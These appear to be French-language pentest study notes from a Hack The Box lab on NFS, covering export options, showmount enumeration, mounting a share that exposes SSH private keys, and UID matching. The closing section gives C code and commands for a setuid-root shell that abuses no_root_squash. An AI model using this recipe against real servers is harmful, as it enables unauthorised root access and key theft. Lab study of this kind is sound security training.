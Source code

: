 Network File System
Unix/Linux
UDP ou TCP 2049 (depuis v4)
Authorization et authentification sur ONC-OPC, TCP et UDP 111 qui utilise XDR pour échange de données indépendant du système
Utilise Unix UID et GID, n'a pas besoin de correspondre

Config dans /etc/exports

| Option | 		Description |
| --- | --- |
| rw *		|		Read and write permissions.|
| ro 		|		Read only permissions.|
| sync 	|		Synchronous data transfer. (A bit slower)|
| async 	|		Asynchronous data transfer. (A bit faster)|
| secure 	|	Ports above 1024 will not be used.|
| insecure *	|	Ports above 1024 will be used. |
| no_subtree_check | 	This option disables the checking of subdirectory trees. |
| root_squash  |	Assigns all permissions to files of root UID/GID 0 to the UID/GID of anonymous, which prevents root from accessing files on an NFS mount.|
| no_root_squash * | All files created by root are kept with the UID/GID 0.|
| nohide * | If another file system was mounted below an exported directory, this directory is exported by its own exports entry.|

ex de config: exposé pour une plage limité
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/mnt/nfs  10.129.14.0/24(sync,no_subtree_check)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## Monter un partage NFS

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Corsaire@htb[/htb]$ showmount -e 10.129.228.163

Export list for 10.129.14.128:
/mnt/nfs 10.129.14.0/24
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

	(L'ip ou plage d'IP est ceux qui ont droit)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ sudo mount -t nfs 10.129.202.41:/ -m nfs -o nolock
$ cd nfs
$ tree .

.
└── mnt
    └── nfs
        ├── id_rsa
        ├── id_rsa.pub
        └── nfs.share

2 directories, 3 files

sudo umount ./nfs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## Accéder à tous les fichiers (sauf root squash)
Lister les noms, UIDs et GUIDs

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ls -l mnt/nfs/
ls -n mnt/nfs/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Recréer les mêmes UIDs

## PRIVESC
Avec no root squash et write on peut créer un exec avec setuid root sur notre PC et l'envoyer sur la victime

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
└─$ cat > shell.c<<EOF
#include <unistd.h>
int main(){
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
EOF

sudo gcc -static shell.c -o shell
sudo chmod u+s shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

